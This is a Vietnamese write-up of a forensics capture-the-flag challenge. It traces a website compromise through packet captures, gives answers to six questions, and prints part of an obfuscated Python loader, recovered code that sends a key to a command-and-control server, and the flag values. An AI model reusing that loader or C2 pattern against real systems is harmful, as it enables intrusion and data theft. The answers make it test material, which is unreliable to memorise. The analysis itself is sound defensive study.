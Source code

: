 # ToolPie

### Detail:
In the bustling town of Eastmarsh, Garrick Stoneforge’s workshop site once stood as a pinnacle of enchanted lock and toolmaking. But dark whispers now speak of a breach by a clandestine faction, hinting that Garrick’s prized designs may have been stolen. Scattered digital remnants cling to the compromised site, awaiting those who dare unravel them. Unmask these cunning adversaries threatening the peace of Eldoria. Investigate the incident, gather evidence, and expose Malakar as the mastermind behind this attack.

```
1. What is the IP address responsible for compromising the website?
2. What is the name of the endpoint exploited by the attacker?
3. What is the name of the obfuscation tool used by the attacker?
4. What is the IP address and port used by the malware to establish a connection with the Command and Control (C2) server?
5. What encryption key did the attacker use to secure the data?
6. What is the MD5 hash of the file exfiltrated by the attacker?
```

### Solution

#### Question 1: What is the IP address responsible for compromising the website? - Answer: `194.59.6.66`

Ta phân tích HTTP traffic thì ta thấy ở stream thứ 3, ta thấy có 1 code obfuscated Python đang được upload từ một endpoint.

![image](assets/1.png) 

---

#### Question 2: What is the name of the endpoint exploited by the attacker? - Answer: `execute`

Câu trả lời cũng ở câu 1 luôn, đó là `execute`

![image](assets/2.png)

---

#### Question 3: What is the name of the obfuscation tool used by the attacker? - Answer: `Py-Fuscate`

Câu này ta phải tiến hành phân tích code obfuscate vừa rồi.

```
{"script":"\ntry:\n\timport marshal,lzma,gzip,bz2,binascii,zlib;exec(marshal.loads(bz2.decompress(b'BZh91AY&SY\\x8d*w\\x00\\x00\\n\\xbb\\x7f\\xff\\xff\\xff\\xff\\xff\\xff\\xff\\xff\\xff\\xff\\xff\\xff\\xff\\xff\\xff\\xff\\xff\\xff\\xfe\\xee\\xec\\xe4\\xec\\xec\\xc0?\\xd9\\xff\\xfe\\xf4\"|\\xf9`\\r\\xff\\x1a\\xb3\\x03\\xd1\\xa0\\x1e\\xa9\\x11\\x07\\xac\\x9e\\xef\\x1e\\xeez\\xf5\\xdb\\xd9J\\xde\\xce\\xa6K(\\xe7\\xd3\\xe9\\xcd\\xa9\\x93\\rS@M\\x134&\\r\\x11\\x94xF\\x11\\xa6\\x89\\xb2\\x99\\xa6\\x94\\xf0\\x1ai\\xa1\\xa6\\x9a\\x03AF\\xd1\\x1e\\x9e\\xa1\\x9a\\xa7\\x89\\xa6L\\x84\\xf5\\x1ayC\\xd44z\\x993S h\\r\\x0f)\\xe9\\x03@\\x03LG\\xa9\\xa0\\x1a\\x04DI\\xe8\\x19$\\xf4\\xc9\\xe92a\\xa3D\\xc9\\x9aL\\x11\\x81O\\'\\xa4\\x9e\\x935=M\\xa4\\xd0\\xd1\\xa6&F\\x81\\x93L\\x86\\x80\\x00\\x00\\x06\\x80\\x00\\x00\\x00
...................
\\xe0\\x00')))\nexcept KeyboardInterrupt:\n\texit()\n"}
```

Ta xử lý qua đoạn string (có 2 dấu '\\' liền nhau thì đổi thành còn 1) và sử dụng thêm module `dis` của Python. Đại loại nó sẽ giúp ta hiển thị và show bytecode của Python.

```python
import marshal,lzma,gzip,bz2,binascii,zlib
import dis

code =  b'BZh91AY&SY\x8d*w\x00\x00\n\xbb\x7f\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff.....[DÀI QUÁ]........'
print(dis.dis(marshal.loads(bz2.decompress(code))))
```

![image](assets/3.png)

Ta nhìn xuống dưới thì có một đoạn có chứa tên của tool obfuscate `Py-Fuscate`

![image](assets/4.png)

---

#### Question 4. What is the IP address and port used by the malware to establish a connection with the C2 server? - Answer: `13.61.7.218:55155`

Câu này kéo xuống dưới ta cũng biết được luôn nha

![image](assets/5.png)

---

#### Question 5. What encryption key did the attacker use to secure the data? - Answer: `5UUfizsRsP7oOCAq`

Ta kéo xuống dòng data thứ `58, 59`. Nếu ta viết hẳn code của đoạn đó thì đoại loại nó là:

![image](assets/6.png)

```python
# Dòng 58:
enc_received = client2.recv(BUFFER_SIZE)
# Dòng 59:
received = dec_mes(enc_received, k).decode()
```

Đại loại nó client sẽ nhận thông tin và decrypt thông tin đó với key `k`. Ta đã xác định được key tên là `k` rồi thì tiếp tục kéo xuống dưới xem `k` nó trông như thế nào. Vào dòng 156 ta có thông tin của nó.

![image](assets/7.png) 

Ta phục hồi đc code ban đầu: `client.send(f"{user}{SEPARATOR}{k}".encode())`. Ta biết được `key` sẽ đứng sau cái gọi là `<SEPARATOR>` nên follow theo TCP stream ta tìm được giá trị của key đó.

![image](assets/8.png)

---

#### Question 6. What is the MD5 hash of the file exfiltrated by the attacker? - Answer: `8fde053c8e79cf7e03599d559f90b321`

Trong đoạn output sử dụng `dis` của ta có nói về việc sử dụng `AES`.

![image](assets/9.png)

Ta phục hồi được code ban đầu của nó: `cypher = AES.new(key.encode(), AES.MODE_CBC, key.encode())`. Đại loại nó sẽ dùng AES, có key và IV = key **????? (really?)**

Ta tiến hành extract data từ 13.61.7.218:55155 và decrypt thông tin.

```
tshark -r capture.pcap -Y "ip.addr == 13.61.7.218 && tcp.dstport == 55155" -T fields -e data.data > extract.data
```

Và t đút vô CyberChef (xóa một số thông tin thừa ở đầu của extract.data đi) và tiến hành decrypt AES và có được file `pdf`

![image](assets/10.png)

Save nó và check MD5 hash của file là có kết quả của câu 6

![image](assets/11.png)

---

### Final Answer


| Question | Flag |
|---|----|
| 1. What is the IP address responsible for compromising the website? | 194.59.6.66 | 
| 2. What is the name of the endpoint exploited by the attacker? | execute | 
| 3. What is the name of the obfuscation tool used by the attacker? | Py-Fuscate |
| 4. What is the IP address and port used by the malware to establish a connection with the Command and Control (C2) server? (Format: username:password) | `13.61.7.218:55155` |
| 5. What encryption key did the attacker use to secure the data? | 5UUfizsRsP7oOCAq |
| 6. What is the MD5 hash of the file exfiltrated by the attacker? | 8fde053c8e79cf7e03599d559f90b321 |
